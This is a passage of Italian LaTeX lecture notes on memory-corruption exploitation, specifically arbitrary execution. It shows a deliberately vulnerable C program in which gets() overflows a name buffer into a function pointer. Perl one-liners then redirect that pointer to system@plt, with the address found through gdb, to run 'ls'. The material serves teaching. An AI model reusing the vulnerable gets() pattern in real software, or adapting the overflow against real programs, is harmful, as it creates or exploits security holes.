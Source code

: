\subsection{Arbitrary execution}
Oltre la scrittura e la lettura avremo anche l'esecuzione, che prende il nome di \textbf{Arbitrary execution}, ciò ci darà la possibilità di eseguire arbitrariamente qualunque parte della memoria mappata dal processo.
\begin{lstlisting}[language=C]
    void bark(char *s) {
        printf("woof %s!\n", s); 
    }

    struct animal {
        char name [4];
        void (*cry)( char *);
    };

    int main (...) {
        char s[128];
        struct animal dog;
        dog.cry = bark;
        gets(dog.name);
        gets(s);
        dog.cry(s);
    }
\end{lstlisting}
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            name \\
            \hline
            cry() \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ls" '| ./vuln
\end{lstlisting}
Questo comando ci permetterà di eseguire porzione di codice inserito all'indirizzo 0x43434343, in questo caso \textit{ls}.

\begin{ex}
    \begin{lstlisting}[language=bash]
        echo "p system" | gdb -q ./vuln
        Reading symbols from ./vuln ... done.
        (gdb) $1 = 0x80483d0 <system@plt >
        $ perl -e 'print "AAAA\xd0\x83\x04\x08\n","ls" | ./vuln
        Name?
        Cry?
        vuln vuln.c
    \end{lstlisting}
    in questo esempio attraverso \textit{gdb} riusciremo a trovare l'indirizzo, sfruttandolo per eseguire \textit{ls}.
\end{ex}

\section{Librerie Dinamiche}

